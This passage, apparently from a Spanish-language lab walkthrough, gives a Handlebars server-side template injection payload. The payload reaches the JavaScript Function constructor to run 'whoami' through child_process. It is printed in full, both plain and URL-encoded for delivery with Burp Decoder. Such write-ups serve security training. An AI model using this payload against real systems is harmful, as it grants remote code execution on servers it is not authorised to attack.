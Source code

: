 ```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

2. En **Decoder**, usamos la opción `Encode as → URL`.

![](../img/7373666b6d9544462eb1c9bbfa499f0b.png)
    
3. Copiamos ese payload ya codificado.

```bash
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%7b%7b%74%68%69%73%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%65%61%63%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
    